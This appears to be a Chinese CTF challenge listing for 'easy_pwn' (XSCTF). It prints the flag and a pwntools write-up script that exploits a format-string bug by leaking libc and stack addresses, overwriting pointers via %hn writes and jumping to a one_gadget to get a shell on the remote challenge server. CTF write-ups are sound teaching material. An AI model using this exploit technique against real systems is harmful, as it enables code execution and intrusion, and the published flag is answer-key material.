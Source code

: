 - **题目名称：** easy_pwn
- **题目类型：** PWN
- **题目难度：**中等偏下
- **出题人：** she1p
- **考点：**

1. 修改_fini_array
2. 非栈上格式化字符串

- **描述：** 欢迎来到XSCTF SHOP
- **flag：** XSCTF{D0_Y0u_lik3_This_Chal1eng3}
- **Writeup：**

```python
# 20.04
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=process('./easy_pwn1')
p=remote('43.248.97.200',40050)
libc=ELF('./libc.so.6')
elf=ELF('./easy_pwn1')


main=0x401296

p.sendlineafter('do you want to shop?\n',b'yes')

def buy(payload):
    p.sendlineafter('What do you want to buy?\n',b'G')
    p.sendafter('but can we collect the goods to your home and leave your address conveniently.\n',payload)

#one_gadget=[0x50a37,0xebcf1,0xebcf5,0xebcf8,0xebd52,0xebdaf,0xebdb3]
one_gadget=[0xe3afe,0xe3b01,0xe3b04]

payload1=b'%150c%8$hhn-%11$p-%13$p'
buy(payload1)
p.recvuntil('-')
libc_base=int(p.recv(14),16)-0x24083
success('libc_base:'+hex(libc_base))
p.recvuntil('-')
stack_addr=int(p.recv(14),16)-0x1d0
success('stack_addr:'+hex(stack_addr))
stack1=stack_addr%0x10000
success('stack1:'+hex(stack1))

payload2='%'+str(stack1)+'c%13$hn'+'%2c%29$hn'
buy(payload2)
#gdb.attach(p)
#pause()
p.sendlineafter('do you want to shop?\n',b'yes')
one1=(libc_base+one_gadget[0])%0x10000
success('one:'+hex(one1))
one2=((libc_base+one_gadget[0])>>16)%0x100
success('one2:'+hex(one2))
payload3='%'+str(one2)+'c%71$hhn%'+str(one1-one2)+'c%69$hn'
buy(payload3)
buy(b'a')
p.interactive()
```

